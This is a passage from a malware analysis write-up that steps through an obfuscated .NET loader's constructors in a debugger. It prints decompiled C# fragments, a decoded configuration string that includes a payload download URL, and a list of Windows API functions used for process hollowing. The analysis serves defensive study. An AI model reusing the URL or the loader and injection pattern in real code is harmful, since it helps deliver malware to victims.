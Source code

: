 ```C#
foreach (FieldInfo fieldInfo in typeFromHandle.GetFields(BindingFlags.Static | BindingFlags.NonPublic | BindingFlags.GetField))
{
	int metadataToken = fieldInfo.MetadataToken;
	int num25 = t49.dPf[metadataToken];
	bool flag = (num25 & 1073741824) > 0;
	num25 &= 1073741823;
	MethodInfo methodInfo = (MethodInfo)typeof(t49).Module.ResolveMethod(num25, typeFromHandle.GetGenericArguments(), new Type[0]);
	if (methodInfo.IsStatic)
	{
		fieldInfo.SetValue(null, Delegate.CreateDelegate(fieldInfo.FieldType, methodInfo));
	}
...
```

To illustrate, in the first line the metadataToken of the field `g3.Gy` is obtained, which is 0x040001DD. In the next line, using `t49.dPf` (the dictionary), get the value associated with key 0x040001DD and assign it to variable "num25".
The value returned is 0x060003AE, which is the metadata token for `Y4.E4R.XOCxlz()`. A delegate is then created, so now, a call to `g3.Gy` will actually call `Y4.E4R.XOCxlz()`. 

Note: This process is followed many more times throughout execution for various other classes. This made it difficult for me to know where I would be jumping to while debugging, which I'd guess is the purpose.

After assigning delegates to all the fields in the `g3` class, I reached the end of the `<Module>` constructor.

Before I can determine what the call to `Y4.pn.OcE()` will do, I must first investigate the `pn` class constructor. 

#### pn Class Constructor
This constructor is rather more obfuscated than the last, but by walking through the steps with the debugger, I was able to gain a rough understanding. Firstly, it creates an array of Unicode characters using a hardcoded set of loops and array manipulation. I've shared the entirety of the array [here.](https://pastebin.com/RW9GVuKK)

A few strings are extracted from specified indices of the array, and the third string below is split using the token `||`. 
```string
zDJqayZgb

jf221efESkp

1||0||0||0||1||http://inijingo22dev.online/Tlv5quZrJBTUzqG.exe||Tlv5quZrJBTUzqG.exe||0||0||0||0||||||||||||||0||0||0||0||0||0||0||0||v4||2||13325||0||0||||||0||0||0||||0||0||0||1||
```
Each distinct value split from the third string is assigned to a field of the `pn` class. 

Next, a series of methods are called to create pointers to library functions using strings extracted from the decoded data. The pointers are assigned to fields of the `pn` class as well. 

```strings
pn.TaF  --> kernel32.ResumeThread
pn.jaE  --> kernel32.Wow64SetThreadContext
pn.taL  --> kernel32.SetThreadContext
pn.kap  --> kernel32.Wow64GetThreadContext
pn.man  --> kernel32.GetThreadContext
pn.PaP  --> kernel32.VirtualAllocEx
pn.FaX  --> kernel32.WriteProcessMemory
pn.Nab  --> kernel32.ReadProcessMemory
pn.saA  --> ntdll.ZwUnmapViewOfSection
pn.Da8  --> kernel32.CreateProcessA
```
This brings us to the end of the `pn` constructor, now I can finally start digging into to the `Y4.pn.OcE()` method. 